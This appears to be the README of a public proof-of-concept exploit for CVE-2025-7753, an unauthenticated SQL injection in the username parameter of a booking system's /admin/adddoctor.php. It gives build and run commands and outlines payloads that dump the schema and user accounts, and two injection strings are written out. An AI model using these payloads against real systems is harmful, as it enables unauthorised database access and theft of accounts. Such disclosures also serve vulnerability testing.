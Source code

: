 # 🚨 CVE-2025-7753 — SQL Injection PoC Exploit

**Author:** Byte Reaper  
**Telegram:** [@ByteReaper0](https://t.me/ByteReaper0)  
**CVE:** CVE‑2025‑7753  
**Vulnerability:** Unauthenticated, time‑based SQL Injection  

---

## 🔍 Overview

A critical SQL Injection vulnerability exists in **Online Appointment Booking System 1.0** (Code‑Projects) in the file  
`/admin/adddoctor.php`. The `username` parameter is not properly sanitized, allowing remote attackers to execute arbitrary SQL queries (time‑based, error‑based, union‑based, boolean‑based).

This repository provides the **first public PoC** written in C, leveraging **libcurl** for HTTP requests and ANSI‑colored output for clarity.

---

## ⚙️ Requirements

- **Operating System:** Linux (x86_64 recommended)  
- **Compiler:** GCC or Clang  
- **Dependencies:**  

  sudo apt update
  sudo apt install build-essential libcurl4-openssl-dev
🚀 Build & Run
Compile:

gcc exploit.c argparse.c -o CODE_PROJECT -lcurl
Execute (as root):

sudo ./CODE_PROJECT-7753 -u http://TARGET/Online-Appointment-Booking-System-master/
Verbose mode (optional):

sudo ./CODE_PROJECT -u http://TARGET/... -v
📜 Exploit Workflow
Environment checks ensure you’re on Linux and running as root (auto‑escalates via sudo if needed).

Payload array includes:

Time‑based (SLEEP(5))

Error‑based (RLIKE, CONCAT, COUNT)

UNION‑based queries to dump schema, user, table names, and first user account.

libcurl performs POST requests and captures server responses.

Response parsing scans for SQL error strings to confirm vulnerability.

🧪 Payloads Tested

11' AND (SELECT 9158 FROM (SELECT(SLEEP(5)))QYZI)-- LGFz
11' RLIKE (SELECT (CASE WHEN (1872=1872) THEN 11 ELSE 0x28 END))-- AfYm
… etc.

## License
MIT 